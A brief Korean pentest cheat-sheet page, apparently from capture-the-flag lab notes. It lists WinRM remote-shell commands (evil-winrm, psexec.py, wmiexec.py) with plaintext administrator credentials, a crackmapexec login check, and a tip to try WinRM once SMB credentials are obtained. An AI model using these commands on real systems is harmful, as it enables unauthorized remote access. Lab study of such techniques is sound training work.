 # 5985, 5986 - Winrm

```bash
// Winrm 원격접속
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```

```
// Winrm 접속되는지 테스트
crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
```

* 만약 smb 계정과 비밀번호를 얻었다면 winrm 접속시도를 한번은 해보는 것이 좋다&#x20;

